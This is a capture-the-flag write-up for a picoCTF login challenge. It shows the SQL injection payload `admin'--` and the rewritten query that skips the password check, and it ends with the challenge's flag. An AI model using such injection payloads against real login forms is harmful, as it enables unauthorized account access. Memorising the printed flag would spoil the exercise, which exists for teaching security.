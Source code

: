 # Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or `http://jupiter.challenges.picoctf.org:64649`

# Hints

The password is being filtered.

# Solution

- In this article, Sql error was prevented when using `' OR 1==1--`. Let's think about another attack that only uses usernames (because password is being filtered).

- Let's try `admin'--`
``` java
 SELECT username, password FROM users WHERE username='$username' AND password='$password';
 ```
 When we put in our injection, the query becomes:
``` java
SELECT username, password FROM users WHERE username='admin'--' AND password='';
```

# Flag
`picoCTF{m0R3_SQL_plz_aee925db}`